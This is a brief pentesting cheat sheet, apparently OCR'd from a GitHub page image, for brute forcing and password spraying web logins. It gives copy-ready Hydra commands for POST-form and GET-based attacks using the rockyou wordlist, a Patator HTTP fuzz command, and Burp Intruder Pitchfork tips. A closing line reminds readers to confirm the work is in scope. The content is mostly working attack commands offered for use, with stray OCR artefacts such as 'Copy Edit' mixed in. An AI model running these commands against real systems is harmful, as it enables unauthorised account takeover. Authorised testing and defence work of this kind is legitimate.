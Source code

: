 # Web Authentication Brute Force / Password Spraying

## Hydra (POST form)

hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> \
http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid credentials"
Hydra (GET request)
bash
Copy
Edit
hydra -l admin -P rockyou.txt <TARGET_IP> http-get /admin/
Patator

patator http_fuzz method=POST url="http://<TARGET_IP>/login.php" \
body="username=FILE0&password=FILE1" 0=/root/users.txt 1=/root/passwords.txt
Burp Suite Intruder
Use Pitchfork for user/pass combinations

Grep-Match on failure/success strings

Tip: Always validate that brute forcing is in-scope before running.
